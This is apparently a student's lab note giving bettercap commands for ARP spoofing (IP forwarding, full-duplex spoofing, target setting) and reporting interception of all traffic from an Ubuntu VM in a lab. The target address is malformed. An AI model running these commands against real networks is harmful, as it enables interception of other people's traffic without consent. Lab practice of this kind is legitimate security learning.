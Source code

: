 ## 1. Getting hands dirty with networking

```bash

 echo 1 > /proc/sys/net/ipv4/ip_forward
```
```bash

sudo bettercap -iface eth0
```
```bash

 set arp.spoof.fullduplex true
```

```bash

set arp.spoof.targets 172.30.144.159.24
```
```bash

arp.spoof on
```
I have managed to track all requests comming from the ubunto vm on the left side as shown in the image bellow.
![Alt text](image.png)